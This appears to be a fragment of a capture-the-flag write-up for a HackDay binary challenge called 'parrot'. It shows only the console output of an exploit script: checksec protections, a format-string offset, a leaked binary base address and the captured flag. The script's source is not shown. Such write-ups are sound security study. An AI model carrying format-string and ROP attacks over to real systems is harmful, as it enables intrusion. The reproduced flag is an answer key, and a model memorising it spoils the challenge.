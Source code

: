 Result:

```
$ python3 exploit.py
[*] '/home/elf/Downloads/parrot'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to sie2op7ohko.hackday.fr on port 1341: Done
[*] Found format string offset: 6
[*] binary base @ 0x555555554000
[+] HACKDAY{n0th1ng_r3515t_f0rm4t_str1ng5_w1th_r0p_ch41n5}
[*] Closed connection to sie2op7ohko.hackday.fr port 1341
```

Flag: `HACKDAY{n0th1ng_r3515t_f0rm4t_str1ng5_w1th_r0p_ch41n5}`